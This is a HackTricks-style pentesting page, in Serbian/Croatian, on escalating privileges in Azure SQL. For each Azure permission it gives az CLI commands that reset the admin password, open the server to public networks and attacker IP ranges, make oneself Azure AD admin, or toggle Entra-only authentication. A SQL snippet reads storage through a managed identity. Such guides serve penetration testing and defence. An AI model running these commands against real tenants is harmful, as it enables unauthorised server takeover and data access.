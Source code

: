 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Za više informacija o SQL bazi podataka, pogledajte:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Sa ovim dozvolama, korisnik može izvršiti eskalaciju privilegija ažuriranjem ili kreiranjem Azure SQL servera i modifikovanjem kritičnih konfiguracija, uključujući administratorske akreditive. Ova dozvola omogućava korisniku da ažurira svojstva servera, uključujući SQL server admin lozinku, omogućavajući neovlašćen pristup ili kontrolu nad serverom. Takođe mogu kreirati nove servere, potencijalno uvodeći senčanu infrastrukturu u zle svrhe. Ovo postaje posebno kritično u okruženjima gde je "Microsoft Entra Authentication Only" onemogućeno, jer mogu iskoristiti SQL-baziranu autentifikaciju za sticanje neograničenog pristupa.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
Dodatno, potrebno je omogućiti javni pristup ako želite da pristupite sa neprivatnog krajnjeg tačke, da biste to omogućili:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
Pored toga, sa dozvolama možete omogućiti dodeljivanje identiteta, i raditi sa upravljanim identitetom koji je povezan sa serverom. Na primer, ovde sa upravljanim identitetom koji može pristupiti Azure Storage:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

Napadač može manipulisati pravilima vatrozida na Azure SQL serverima kako bi omogućio neovlašćen pristup. Ovo se može iskoristiti za otvaranje servera za specifične IP adrese ili čitave IP opsege, uključujući javne IP adrese, omogućavajući pristup zlonamernim akterima. Ova aktivnost nakon eksploatacije može se koristiti za zaobilaženje postojećih mrežnih bezbednosnih kontrola, uspostavljanje postojanosti ili olakšavanje lateralnog kretanja unutar okruženja izlaganjem osetljivih resursa.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Dodatno, `Microsoft.Sql/servers/outboundFirewallRules/delete` dozvola vam omogućava da obrišete pravilo vatrozida.  
NAPOMENA: Potrebno je omogućiti javni pristup.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Sa ovom dozvolom, možete kreirati, modifikovati ili obrisati IPv6 pravila vatrozida na Azure SQL Serveru. Ovo bi moglo omogućiti napadaču ili ovlašćenom korisniku da zaobiđe postojeće mrežne bezbednosne konfiguracije i dobije neovlašćen pristup serveru. Dodavanjem pravila koje omogućava saobraćaj sa bilo koje IPv6 adrese, napadač bi mogao otvoriti server za spoljašnji pristup.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Dodatno, `Microsoft.Sql/servers/ipv6FirewallRules/delete` dozvola vam omogućava da obrišete pravilo vatrozida.  
NAPOMENA: Potrebno je omogućiti javni pristup.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Sa ovim dozvolama možete privesc u Azure SQL Server okruženju pristupajući SQL bazama podataka i preuzimajući kritične informacije. Koristeći komandu ispod, napadač ili ovlašćeni korisnik može postaviti sebe ili drugi nalog kao Azure AD administratora. Ako je "Microsoft Entra Authentication Only" omogućeno, možete pristupiti serveru i njegovim instancama. Evo komande za postavljanje Azure AD administratora za SQL server:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Sa ovim dozvolama, možete konfigurisati i primeniti "Microsoft Entra Authentication Only" na Azure SQL Serveru, što može olakšati eskalaciju privilegija u određenim scenarijima. Napadač ili ovlašćeni korisnik sa ovim dozvolama može omogućiti ili onemogućiti Azure AD-only autentifikaciju.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
